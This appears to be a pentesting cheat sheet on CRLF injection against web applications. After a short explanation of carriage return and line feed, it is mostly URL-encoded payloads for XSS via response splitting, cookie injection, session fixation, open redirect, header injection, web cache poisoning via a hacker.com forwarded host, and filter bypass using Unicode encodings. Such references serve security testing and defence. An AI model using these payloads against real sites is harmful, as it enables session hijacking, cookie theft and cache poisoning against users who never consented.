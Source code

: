 # CRLF Inhection
The term `CRLF` refers to **Carriage Return** (ASCII 13, `\r`) **Line Feed** (ASCII 10, `\n`). They’re used to note the termination of a line, however, dealt with differently in today’s popular Operating Systems. For example: in Windows both a CR and LF are required to note the end of a line, whereas in Linux/UNIX a LF is only required. In the HTTP protocol, the CR-LF sequence is always used to terminate a line.

A CRLF Injection attack occurs when a user manages to submit a CRLF into an application. This is most commonly done by modifying an HTTP parameter or URL.

## Impacts of CRLF Injection
* XSS
* HTTP Response Splitting
* Open Redirect
* Session Fixation
* HTTP Header Injection
* Web Cache poisoning

## How to Exploit
* **XSS**
```html
# By Disabling XSS Protection
/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23

# By Popping an alert containing sensitive user information
/%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2e%2e

# Response splitting on 302 Redirect, before Location header (Discovered in DoD)
%0d%0aContent-Type:%20text%2fhtml%0d%0aHTTP%2f1.1%20200%20OK%0d%0aContent-Type:%20text%2fhtml%0d%0a%0d%0a%3Cscript%3Ealert('XSS');%3C%2fscript%3E

# Response splitting on 301 code, chained with Open Redirect to corrupt location header and to break 301.
# Note: xxx:1 was used for breaking open redirect destination (Location header).
# Great example how of to escalate CRLF to XSS on a such, it would seem, unexploitable 301 status code.
%2Fxxx:1%2F%0aX-XSS-Protection:0%0aContent-Type:text/html%0aContent-Length:39%0a%0a%3cscript%3ealert(document.cookie)%3c/script%3e%2F..%2F..%2F..%2F../tr
```

* **HTTP Response Splitting / Cookie Injection**

HTTP Response Splitting allows an attacker to set malicious cookies on the victim’s browser. In most cases, the following GET request will result in a 307 Redirect, and thus the victim will be redirected to target.com & the URL won’t contain the Set-Cookie parameter. In the background however, the cookie will be set.
```html
# Check if the response is setting this cookie
/%0D%0ASet-Cookie:mycookie=myvalue
```

* **Open Redirect**
```html
//www.google.com/%2F%2E%2E%0D%0AHeader-Test:test2
/www.google.com/%2E%2E%2F%0D%0AHeader-Test:test2
/google.com/%2F..%0D%0AHeader-Test:test2
/%0d%0aLocation:%20http://example.com
```

* **Session Fixation**

Similar to the Cookie Injection attack, here the attacker sets a user’s session id to a particular value. This link is sent to the victim and when the victim logs in using this session, the attacker can also log in by using the same session id.
```html
/%0d%0aSet-Cookie:session_id=942...
%0dSet-Cookie:csrf_token=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx;
```

* **HTTP Header Injection**
```html
%0d%0aheader:header
%0aheader:header
%0dheader:header
%23%0dheader:header
%3f%0dheader:header
/%250aheader:header
/%25250aheader:header
/%%0a0aheader:header
/%3f%0dheader:header
/%23%0dheader:header
/%25%30aheader:header
/%25%30%61header:header
/%u000aheader:header
%E5%98%8A%E5%98%8Dheader:header
```

* **Web Cache poisoning**
```html
/%0d%0aX-Forwarded-Host:hacker.com
```

* **Filter Bypass**
```html
%E5%98%8A = %0A = \u560a
%E5%98%8D = %0D = \u560d
%E5%98%BE = %3E = \u563e (>)
%E5%98%BC = %3C = \u563c (<)
Payload = %E5%98%8A%E5%98%8DSet-Cookie:%20test
```



